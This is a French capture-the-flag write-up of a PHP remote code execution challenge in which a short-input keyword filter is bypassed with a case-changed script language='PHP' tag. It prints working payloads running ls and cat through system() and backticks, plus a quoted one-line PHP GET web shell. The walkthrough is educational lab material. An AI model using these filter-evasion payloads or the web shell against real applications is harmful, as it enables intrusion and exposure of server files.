 # Misc 250 - Outsmarter Filter

L'énonce nous indique que nous devons réaliser une RCE pour
valider l'épreuve mais qu'un filtre est présent. Le filtre recherche :
- Texte de moins de 42 caractères
- Banissement des mots clefs : eval shell exec popen php
- Banissement des opérateurs : ? et ; et $

On va essayer d'injecter du code PHP pour faire notre RCE, nous
testons un simple :
```html
<?php echo "test"; ?>```

Le filtre détecte nos "?", ";" et "php". 
Après avoir regardé la documentation on apprend qu'il est possible
de remplacer la balise php par script language=php, on est débarrassé de nos "?" mais de notre "php".

Et si le script n'était pas sensible à la casse ? On teste notre payload avec "PHP"


```html
<script language='PHP>echo 'Hello'</script>```
taille : 42



Celui-ci s'exécute, nous avons donc passé la première partie du challenge, nous sommes capables
d'injecter des commandes PHP. Il nous faut maintenant trouver le flag, la première idée est de lister les
fichiers et dossiers. On essaie donc un appel à system car il n'est pas bloqué :)

```html
<script language='PHP>system('ls')</script>
```
taille : 42

Le script fonctionne mais on n'obtient rien d'interesssant, on essaie d'afficher les fichiers cachés

```html
<script language='PHP>system('ls -a')</script>
```
taille : 45


Malheureusement notre payload est trop grand 45 caractères alors que la limite est de 42..Il nous faut
trouver un moyen de le réduire.

Après quelques recherches sur "Mini Shell PHP", on trouve celui-ci : 
```php
<?=@\`$_GET[c]`; 
```

Il n'est pas
adapté à cause de ses ";" et "?" mais on va le modifier pour l'utiliser.

Explication du shell
```php
<?=@\`$_GET[c]`;
```

Execute la commande système grace aux backticks
Récupère une commande par GET
@ = Enleve les erreurs


On peut donc remplacer system('ls') par echo `ls`. Notre payload devient donc :

```html
<script language='PHP>echo `ls`</script>
```
taille : 39

Parfait la taille est respectée mais on a toujours pas de fichier intéressant. Nous voulons alors inspecter
le contenu d'index.php :
><script language=PHP>echo `cat index.php`</script> taille 50

La taille de notre script est trop grande, on le réduit encore :

```html
<script language='PHP>echo `cat i*`</script> taille 43

<script language='PHP>echo `cat *`</script> taille 42

<script language='PHP>echo`cat *`</script> taille 41
```

Le contenu des fichiers s'affiche, on peut voir le flag dans index.php “Well done, you found the flag :
**ese{RCE_4ll_th3_dummy_WAFs}**“